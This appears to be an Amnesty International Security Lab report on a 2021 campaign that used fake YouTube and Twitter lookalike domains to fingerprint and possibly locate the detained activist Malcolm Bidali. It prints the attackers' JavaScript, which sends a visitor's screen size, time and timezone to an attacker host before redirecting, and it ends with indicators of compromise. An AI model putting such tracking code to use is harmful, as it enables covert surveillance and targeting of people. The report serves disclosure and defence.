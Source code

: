 # Fingerprinting Campaign Targeting Malcolm Bidali

On the 4th of May 2021, Qatar’s state security services forcibly disappeared the Kenyan labour rights activist Malcolm Bidali. Migrant-Rights.org, FairSquare, Amnesty International, Human Rights Watch, and the Business & Human Rights Resource Centre [are calling on Qatari authorities to immediately reveal his whereabouts and explain why he has been detained](https://www.amnesty.org/en/latest/news/2021/05/activist-malcolm-bidali-in-solitary-confinement-in-qatar/). If he has been detained for his activism he should be released immediately and unconditionally.

Malcolm Bidali, 29, is a security guard in Qatar, blogger and activist, who has been vocal about the plight of migrant workers like himself, and has written using a pseudonym Noah for a number of online platforms.

A few days before his disappearance, someone replied to a tweet from Malcolm's Twitter account [@NoahArticulates](https://twitter.com/noaharticulates) with a link to what appeared to be a Human Rights Watch video. This link has been used in an attempt to gather technical information which may have contributed to his identification or geolocation. Amnesty International's Security Lab identified two more domains related to this campaign which may have been used in the same way.

## Initial Tweet

On the 26th of April, the Twitter account @MukhbatQatar replied to @NoahArticulates with a tweet that included a link to a domain mimicking YouTube: `https://youl[.]tube/watch?v=Gt4tqJLiOT0&t=s17`

![](tweet.png)

The link shared with Malcolm Bidal loads a YouTube video by Human Rights Watch about labor rights in Qatar.

![](youltube.png)

Logs from Malcolm’s visit to this decoy page might have allowed the attackers to obtain his IP address, which could have been used to identify and locate him.

## More Domains

While investigating this link, Amnesty International's Security Lab has identified two additional domains related to this campaign.

The same Twitter account @MukhbatQatar has shared a link to the domain `https://twittre[.]co/`with another Twitter user. Using the following JavaScript code (as seen on May 21st), this website collected information about a visitor before redirecting to a legitimate tweet:

```js
$.post('https://twittre[.]co/googleanalytics.js', {
    action: "[REDACTED]",
    widthScreen: $(window).width(),
    heightScreen: $(window).height(),
    TimeUser: parseInt((new Date().getTime() / 1000).toFixed(0)),
    TimeZone: Intl.DateTimeFormat().resolvedOptions().timeZone,
    success:function(response){
        window.location.href = "https://twitter.com/[REDACTED]";
    },
    }, function (data) {
    });
```

This code sends the screen size, system time and timezone to another page likely recording visits, probably along with the IP address.

A second domain with a similar infrastructure, `twitt-er[.]app`, uses the exact same code:

```js
$.post('https://twitt-er[.]app/statistics', {
    action: 'm',
    widthScreen: $(window).width(),
    heightScreen: $(window).height(),
    TimeUser: parseInt((new Date().getTime() / 1000).toFixed(0)),
    TimeZone: Intl.DateTimeFormat().resolvedOptions().timeZone,
}, function (data) {
    window.location.href = 'https://twitter.com/[REDACTED]';
});
```

We have not seen this last domain actively distributed, but we noticed URIs redirect to tweets from other Qatari citizens.

All three of these domains were registered between March and May 2021 using the Njalla registration service, and hosted on separate Digital Ocean servers.

## Indicators of compromise

Here are the domains and IP addresses used in this campaign:

```
youl[.]tube
twittre[.]co
twitt-er[.]app
138.197.103.227
128.199.212.166
161.35.100.139
```
